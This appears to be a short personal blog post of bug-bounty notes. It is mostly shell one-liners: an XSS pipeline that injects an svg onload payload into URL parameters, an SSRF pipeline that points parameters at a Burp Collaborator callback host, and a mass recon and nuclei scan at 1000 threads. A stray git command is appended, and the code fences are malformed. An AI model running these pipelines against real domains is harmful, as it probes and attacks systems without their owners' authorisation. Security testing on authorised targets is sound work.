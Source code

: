 ```yaml
---
title: "HelloWorld"
date: 2023-07-23T16:51:27-07:00
draft: false
---
```


### Let's see how this works.

### Notes.

```
~%$: echo testphp.vulnweb.com | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'
```

### How about an ssrf one:
```
~%$: findomain -t DOMAIN -q | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://YOUR.burpcollaborator.net
```

### ~~Scratch this.~~:
```
~%$: xargs -a domain -I@ -P500 sh -c 'shuffledns -d "@" -silent -w words.txt -r resolvers.txt' | httpx -silent -threads 1000 | nuclei -t /root/nuclei-templates/ -o re1

### random:
```git status | grep 'deleted:' | sed 's/deleted:    //' | xargs git rm```
```